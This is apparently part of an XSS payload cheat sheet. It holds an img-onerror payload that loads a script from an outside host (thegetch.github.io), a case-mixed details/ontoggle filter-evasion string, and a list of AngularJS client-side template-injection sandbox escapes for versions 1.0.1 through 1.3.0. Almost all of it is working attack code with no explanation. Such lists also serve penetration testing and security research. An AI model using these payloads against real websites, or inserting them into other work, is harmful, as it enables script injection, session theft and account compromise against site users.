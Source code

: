 ```
thegetch%22%3e<img src=x onerror='var x=document.createElement("script");x.src = "//thegetch.github.io/x";document.body.appendChild(x);'>
```

From somedev on twitter:

```
'"--><DeTails/opEn/oNTOggLe=(pro\u006dpt)``//
```

---

### AngualrJS XSS:
- https://portswigger.net/blog/xss-without-html-client-side-template-injection-with-angularjs

List of Sandbox bypasses:

1.0.1 - 1.1.5
```
{{constructor.constructor('alert(1)')()}}
```

1.2.0 - 1.2.1
```
{{a='constructor';b={};a.sub.call.call(b[a].getOwnPropertyDescriptor(b[a].getPrototypeOf(a.sub),a).value,0,'alert(1)')()}}
```

1.2.2 - 1.2.5
```
{{'a'[{toString:[].join,length:1,0:'__proto__'}].charAt=''.valueOf;$eval("x='"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+"'");}}
```

1.2.6 - 1.2.18
```
{{(_=''.sub).call.call({}[$='constructor'].getOwnPropertyDescriptor(_.__proto__,$).value,0,'alert(1)')()}}
```

1.2.19 - 1.2.23
```
{{toString.constructor.prototype.toString=toString.constructor.prototype.call;["a","alert(1)"].sort(toString.constructor);}}
```
1.2.24 - 1.2.29
```
{{'a'.constructor.prototype.charAt=''.valueOf;$eval("x='\"+(y='if(!window\\u002ex)alert(window\\u002ex=1)')+eval(y)+\"'");}}
```

1.3.0
```
{{!ready && (ready = true) && (
      !call
      ? $$watchers[0].get(toString.constructor.prototype)
      : (a = apply) &&
        (apply = constructor) &&
        (valueOf = call) &&
        (''+''.toString(
          'F = Function.prototype;' +
          'F.apply = F.a;' +
          'delete F.a;' +
          'delete F.valueOf;' +
          'alert(1);'
        ))
    );}}
```
